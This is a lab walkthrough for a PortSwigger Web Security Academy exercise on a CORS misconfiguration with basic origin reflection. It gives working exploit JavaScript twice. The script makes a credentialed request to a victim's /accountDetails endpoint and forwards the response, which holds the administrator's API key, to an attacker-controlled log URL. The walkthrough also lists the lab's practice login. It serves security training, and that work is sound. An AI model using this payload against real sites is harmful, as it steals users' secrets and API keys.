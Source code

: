 
# CORS vulnerability with basic origin reflection

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

---------------------------------------------

References: 
- https://portswigger.net/web-security/cors
- https://www.freecodecamp.org/news/exploiting-cors-guide-to-pentesting/

---------------------------------------------

Generated link: https://0a0800cc04a1819b81eb34770017009e.web-security-academy.net/

We have the endpoint "/accountDetails":



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/1.png)


Original code:

```
<html>
  <body>
    <script>

    #Initialize the XMLHttpRequest object, and the application URL vairable 
        var req = new XMLHttpRequest();
        var url = ("APPLICATION URL");

    #MLHttpRequest object loads, exectutes reqListener() function
      req.onload = retrieveKeys;

    #Make GET request to the application accounDetails location
        req.open('GET', url + "/accountDetails",true);
    
    #Allow passing credentials with the requests
    req.withCredentials = true;

    #Send the request 
        req.send(null);

    function retrieveKeys() {
            location='/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```

Updated code:


```
<html>
  <body>
    <script>
        var req = new XMLHttpRequest();
        var url = ("https://0a0800cc04a1819b81eb34770017009e.web-security-academy.net");
      req.onload = retrieveKeys;
        req.open('GET', url + "/accountDetails",true);
    
    req.withCredentials = true;

        req.send(null);

    function retrieveKeys() {
            location='/log?key='+this.responseText;
        };

  </script>
  <body>
</html>
```



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/2.png)

Decode:



![img](images/CORS%20vulnerability%20with%20basic%20origin%20reflection/3.png)
